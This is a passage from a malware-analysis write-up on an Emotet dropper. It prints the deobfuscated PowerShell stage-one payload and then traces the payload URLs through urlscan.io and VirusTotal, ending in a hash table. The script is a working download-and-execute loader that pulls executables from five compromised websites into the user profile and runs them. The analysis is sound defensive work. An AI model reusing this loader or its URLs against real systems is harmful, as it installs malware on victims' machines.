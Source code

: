 ## PowerShell Payload

Now that I have a PowerShell Payload, I'll take that and toss it into
[CyberChef](https://gchq.github.io/CyberChef):

![](/img/1558418723657.png)

The PowerShell cleans up to (including adding whitespace and removing
useless lines):



    $N395__65 = '24';
    $k837_0 = $env:userprofile + '\'+$N395__65+'.exe';
    $M21418=&('new- object') NET.WEBCLIEnT;
    $B288603='http://saminprinter.com/wp-includes/yrkvm4vyy_ybidb-43745207/@http://santuarioaparecidamontese.com.br/wp-includes/7jn9p7_qou49bjodx-33953/@http://serwiskonsol.com/wp-content/JEsfYuiPMv/@https://ppdiamonds.co/wp-content/m45zv037uc_nent85daai-282067/@http://aworldtourism.com/wp-includes/1fcjc8_m4lnj7ffng-755100/'.SPlit('@');
    foreach($k968826_ in $B288603){
      try{
        $M21418.dOwnloadfILe($k968826_, $k837_0);
        If ((Get-Item $k837_0).LENgtH -ge 21258) {
          Invoke-Item $k837_0;
          break;
        }
      }catch{
      }
    }



This is a common Emotet algorithm, to have a list of urls separated by
`@` and splitting on it, then looping over them, trying to download and
run, breaking on success.

## Stage Two

I threw the 5 urls into `urlscan.io` to see what would come back. For
example, the first returns this:

![](/img/1558366210872.png)

It includes a file that was "downloaded by the website" (which I assume
means from the website). Pulling that hash up on VT, I see not only that
it's malicious, but also the submitted name is `emotet_exe_e2_...`:

![](/img/1558419582629.png)

The 4th and 5th urls also returned exes:

  URL                                                                              Filename            MD5
  -------------------------------------------------------------------------------- ------------------- ----------------------------------
  <http://saminprinter.com/wp-includes/yrkvm4vyy_ybidb-43745207/>                  w_97162421.exe      b1994f37b1ca47638931dd05d2a92727
  <http://santuarioaparecidamontese.com.br/wp-includes/7jn9p7_qou49bjodx-33953/>   None                None
  <http://serwiskonsol.com/wp-content/JEsfYuiPMv/>                                 None                None
  <https://ppdiamonds.co/wp-content/m45zv037uc_nent85daai-282067/>                 v_28173.exe         b1994f37b1ca47638931dd05d2a92727
  <http://aworldtourism.com/wp-includes/1fcjc8_m4lnj7ffng-755100/>                 82aff7cg1_088.exe   094040f453459afce9093e384a9d2212
